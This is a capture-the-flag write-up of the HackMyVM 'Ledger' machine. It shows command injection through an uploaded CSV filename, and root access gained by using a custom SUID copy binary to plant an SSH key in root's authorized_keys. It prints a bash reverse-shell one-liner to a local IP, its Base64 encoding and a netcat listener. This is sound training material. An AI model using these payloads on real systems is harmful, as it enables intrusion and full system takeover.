






# Ledger — HackMyVM

Write-up of the **Ledger** machine from HackMyVM. It starts with a command injection hidden in a file upload form and ends with a custom SUID binary that lets us write straight into `/root/.ssh/authorized_keys`.

## 1. Recon

### Port scan

As usual, I started with an Nmap scan with default scripts and version detection:

```bash
nmap -sC -sV -Pn <TARGET_IP>
```



Two services exposed:

- **22/tcp** — SSH (OpenSSH)
- **5000/tcp** — HTTP, a web application

Port 5000 became the main target for enumeration.

### Web enumeration

I ran Dirb against the web app:

```bash
dirb http://<TARGET_IP>:5000/
```



It found a couple of extra paths, but nothing really useful there.

### Source code inspection

While going through the app and its HTML source, I found a form for uploading CSV files, with this little gem in the comments:

```html
<p class="sub">Upload a CSV of postings to be merged into the general journal.</p>

<!-- TODO: sanitize uploaded filename before passing it to the hledger import command -->
```

That TODO tells you everything you need to know:

1. The app processes uploads with `hledger import`.
2. The filename is passed to that command **without sanitization**.

So the injection vector isn't the CSV content — it's the **filename**.

## 2. Getting a shell: command injection via filename

The app apparently builds the `hledger import` call by concatenating the uploaded filename into a command string. If that string reaches a shell without proper escaping, a crafted filename can break out and run extra commands with the web server's privileges. That's exactly what I went for.

### Preparing the payload

To keep special characters out of the filename, I Base64-encoded the reverse shell command:

```bash
bash -i >& /dev/tcp/192.168.1.136/4444 0>&1
```

```bash
echo -n 'bash -i >& /dev/tcp/192.168.1.136/4444 0>&1' | base64
```

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTM2LzQ0NDQgMD4mMQ==
```

> Note: Base64 doesn't hide or protect the payload — it just makes it easier to transport inside a filename.

### Uploading the file

I prepared the CSV and uploaded it through the form, using the encoded payload plus the separators needed to alter the command's interpretation as the filename:



The vulnerability is simply that the app handles the uploaded filename in an unsafe way.

### Catching the shell

Before sending the file, I started a listener on the attacking machine:

```bash
nc -lvnp 4444
```

As soon as the app processed the upload, the callback arrived, running as:

```text
www-data
```

Remote code execution through the web service confirmed — time to hunt for a way up.

## 3. Privilege escalation

### Hunting for SUID binaries

First thing from the `www-data` shell: looking for executables with the SUID bit set (programs that run with their owner's effective UID, regardless of who invokes them):

```bash
find / -perm -4000 2>/dev/null
```

The usual suspects showed up (`passwd`, `sudo`, `mount`, `su`...), but one line stood out:

```text
/usr/local/bin/ledger-archiver
```



Unlike the standard system binaries, this is a custom executable living in `/usr/local/bin` — the perfect candidate for privesc.

### Analyzing ledger-archiver

First, checking what it is:

```bash
file /usr/local/bin/ledger-archiver
```

```text
/usr/local/bin/ledger-archiver: setuid ELF 64-bit LSB pie executable, x86-64, ... not stripped
```

```bash
ls -la /usr/local/bin/ledger-archiver
```

```text
-rwsr-xr-x 1 root root 16320 Sep 1 09:02 /usr/local/bin/ledger-archiver
```

So: owned by `root`, SUID bit set, 64-bit ELF, and not stripped — the symbols are intact, which helps a lot with analysis. A quick look at its strings:

```bash
strings /usr/local/bin/ledger-archiver
```

The interesting ones:

```text
Usage: %s <source-file> <destination-file>
Archive a ledger file into the protected backup store.
open source
open destination
Archived %s -> %s
```

So it takes a source file and a destination file, and copies one into the other — an "archiver". No references to `system()`, `popen()` or `execve()`, so this isn't about command execution. The bug is something else: privileged file handling.

### The vulnerability

Under the hood, the binary just does `open()` / `read()` / `write()` / `close()` between two user-controlled paths — but running as `root`. It never checks which files the calling user is allowed to touch, and it doesn't restrict the source or destination paths.

In short:

- **Cause:** a root-owned SUID binary that operates on arbitrary paths passed as arguments, without any authorization checks.
- **Impact:** an unprivileged user can read or overwrite files that should be protected — including files owned by root.
- **Consequence:** write access to sensitive root-owned files (like `/root/.ssh/authorized_keys`) means full system compromise.

The problem isn't `open()` or `write()` themselves — it's running them as root over unvalidated, user-controlled paths.

### Exploitation: writing to authorized_keys

Instead of touching critical files like `/etc/passwd`, I went for SSH authentication: use the binary's copy operation to write my own public key into:

```text
/root/.ssh/authorized_keys
```



That way you don't modify any existing account — you just abuse a legitimate authentication mechanism.

### Verifying root

With the key in place, I connected via SSH using the matching private key:

```bash
ssh -i /tmp/attacker_rsa root@<TARGET_IP>
```

Authentication worked. `id` and `whoami` confirmed the privileges:



```text
uid=0(root) gid=0(root) groups=0(root)
```

Privilege escalation complete.

## 4. Flags

```text
user.txt: HMV{████████████████████}
root.txt: HMV{████████████████████}
```

> Both flags are redacted in this write-up.

## 5. Attack chain summary

1. **Recon** — Nmap finds SSH and an HTTP app on port 5000.
2. **Web enumeration** — Dirb plus source inspection reveal a CSV upload handled by `hledger import`.
3. **Initial access** — command injection through the uploaded filename gives a shell as `www-data`.
4. **Local enumeration** — the SUID hunt reveals the custom `ledger-archiver` binary.
5. **Analysis** — the binary copies files between arbitrary paths with root privileges and no authorization checks.
6. **Privesc** — use it to write an attacker-controlled public key into `/root/.ssh/authorized_keys`.
7. **Root** — SSH in with the corresponding private key.

## 6. Lessons learned

**Web applications:**

- Never trust user-controlled filenames.
- Validate and normalize input before using it in system operations.
- Avoid building commands by string concatenation; pass arguments directly without invoking a shell.
- Store uploads in controlled locations and process them with minimal privileges.

**SUID binaries:**

- SUID binaries must strictly control which files they manipulate — accepting arbitrary paths without validation is a recipe for disaster.
- Prefer fixed, pre-approved paths, and drop elevated privileges as soon as possible.
- Custom binaries won't show up as "vulnerable" in standard enumeration tools — inspect them with `strings` and check what they actually do.

## 7. Tools used

| Tool | Purpose |
|------|---------|
| Nmap | Port scanning and service detection |
| Dirb | Web directory enumeration |
| Netcat | Catching the reverse shell |
| Base64 | Encoding the payload |
| SSH | Key-based remote access |
| strings / file | Binary analysis |
| Linux CLI | System enumeration |

## 8. Conclusion

Ledger chains two distinct bugs: command injection through an unsanitized filename in a web application, and a custom SUID binary with missing access control. The first gets you `www-data`; the second gets you root. The most interesting part is `ledger-archiver` — a reminder that custom privileged binaries can become the critical privesc vector when they don't validate the paths they operate on.
